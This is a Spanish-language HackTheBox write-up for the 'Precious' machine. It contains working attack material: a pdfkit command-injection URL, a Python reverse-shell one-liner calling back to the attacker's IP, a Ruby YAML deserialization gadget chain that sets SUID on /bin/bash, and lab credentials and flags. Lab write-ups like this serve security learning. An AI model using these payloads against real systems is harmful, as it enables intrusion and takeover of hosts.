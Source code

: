 ```yaml
---
title: HackTheBox Precious - Command injection y YAML deserialization
author: c4rta
date: 2023-01-02
categories: [Maquinas, HackTheBox]
tags: [Command injection, YAML deserialization]
---
```



## Enumeracion

Iniciamos con un escaneo de nmap con el comando:

```
nmap -sS -n -Pn --open -p- 10.10.11.189
```
El cual le estamos diciendo que con:

- sS: haga un TCP SYN Scan el cual hace que el destino responda con un RST si el puerto esta cerrado, o con un SYN/ACK si esta abierto,e sto con el fin de iniciar la conexion sin que termine

- n: para que no haga resolucion DNS y tarde menos el escaneo

- Pn: para evitar el descubrimiento de hosts

- open: para que solo muestre los puertos abiertos

- -p-: para que escanee todo el rango de puertos

Esto nos reportara 2 puertos abiertos:

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Asi que ahora escanearemos para saber la version y servicio que esta corriendo por detras:

```
sudo nmap -sCV -p22,80 10.10.11.189
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 845e13a8e31e20661d235550f63047d2 (RSA)
|   256 a2ef7b9665ce4161c467ee4e96c7c892 (ECDSA)
|_  256 33053dcd7ab798458239e7ae3c91a658 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title: Convert Web Page to PDF
| http-server-header: 
|   nginx/1.18.0
|_  nginx/1.18.0 + Phusion Passenger(R) 6.0.15
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Tenemos el puerto de SSH abierto, pero aun no podemos hacer mucha cosa, y el puerto 80, el cual de primeras nos dice que podemos convertir una pagina web a un pdf: ```http-title: Convert Web Page to PDF```

Si nos dirigimos a la pagina web, podemos ver que esta esperando por una URL, asi que para comprobar que se puede convertir a PDF, iniciaremos un servidor web con python:

```python3 -m http.server 8080```

Y le pasaremos la URL

![](/assets/img/commons/precious/precious1.png)

Y efecto, convierte la pagina a un pdf, y me muestra el contenido de mi directorio /Desktop

![](/assets/img/commons/precious/precious2.png)

En este punto, una buena idea es ver un poco de los metadatos del pdf, usaremos la herramienta ```exiftools``` (aun que por alguna razon no me jala, asi que usare esta [web](https://exif.tools/))

Y podemos ver que para generarlo esta usando pdfkit:

![](/assets/img/commons/precious/precious3.png)

## Command Injection

La version de pdfkit que genero el pdf es la ```v0.8.6```, asi que... Nunca es mala idea buscar si existe un exploit para la version de algo.

Econtre que esa version de vulnerable a ```Command injection``` a travez del parametro ```name``` 

Lee [aqui](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795) si quieres saber mas

Asi que intentare ejecutar el comando ```whoami``` para ver si funciona:

```
http://10.10.14.102:8080/?name=%20`whoami`
```

![](/assets/img/commons/precious/precious4.png)

Y una vez sabiendo que si funciona, nos mandaremos una reverse shell con python3:

```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.102",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

Y la URL queda:

```
http://10.10.14.102:8080/?name=%20`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.102",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'`
```
Recuerda editar la IP por la que te dio HTB

## Flag de user

Al lista el contenido podemos ver varios directorios:

```bash
ruby@precious:~$ ls -lha
ls -lha
total 28K
drwxr-xr-x 4 ruby ruby 4.0K Apr 10 16:46 .
drwxr-xr-x 4 root root 4.0K Oct 26 08:28 ..
lrwxrwxrwx 1 root root    9 Oct 26 07:53 .bash_history -> /dev/null
-rw-r--r-- 1 ruby ruby  220 Mar 27  2022 .bash_logout
-rw-r--r-- 1 ruby ruby 3.5K Mar 27  2022 .bashrc
dr-xr-xr-x 2 root ruby 4.0K Oct 26 08:28 .bundle
drwxr-xr-x 3 ruby ruby 4.0K Apr 10 16:46 .cache
-rw-r--r-- 1 ruby ruby  807 Mar 27  2022 .profile
```

Navegando un poco, encontre que en el directorio ```.bundle``` hay un archivo de configuracion el cual tiene unas credenciales:

```bash
ruby@precious:~/.bundle$ cat config
cat config
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
```

Y recordemos que tenemos el puerto del SSH abierto, asi que nos conectaremos por ssh con las credenciales que nos aparecen ahi.

usuario: henry

contraseña: Q3c1AqGHtoI0aXAYFH

Y ahora si ya podemos ver la flag de user:

```bash
henry@precious:~$ cat user.txt 
8cee1d827eb735217879ec75ce6d2751
```

## Flag de root

Primeramente ingresare el comando ```sudo -l``` para poder ver que podemos ejecutar como root desde el usuario ```henry```

```
User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

Nos dice que podemos ejecutar el archivo ```update_dependencies.rb```

Asi que vamos a pasar a ver el contenido del archivo:

```ruby
# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'

# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end

gems_file = list_from_file
gems_local = list_local_gems

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end
```
Me doy cuenta que esta intentando cargar un archivo que se llama ```dependencies.yml```, el cual no se le esta indicando la ruta, y ademas esta usando la funcion ```YAML.load()``` la cual es vulnerable a un ataque```YAML deserialization``` el cual deriva de un RCE, para saber como explotarlo nos guiaremos de [aqui](https://gist.github.com/staaldraad/89dffe369e1454eedd3306edc8a7e565#file-ruby_yaml_load_sploit2-yaml)

Crearemos un archivo yml con el contenido:

```yml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "chmod +s /bin/bash"
         method_id: :resolve
```

Donde le estamos diciendo que ejecute el comando ```chmod +s /bin/bash``` que le asigna permisos SIUD a /bin/bash

Y por ultimo ejecutamos el archivo:

```
sudo /usr/bin/ruby /opt/update_dependencies.rb
```
Y ya somos root:

```bash
bash-5.1# whoami
root
bash-5.1# cat /root/root.txt 
95ff0867c3156b05a0f2d49fc6b1ba48
```

Eso ha sido todo, gracias por leer ❤

![](/assets/img/commons/precious/waifu.gif)



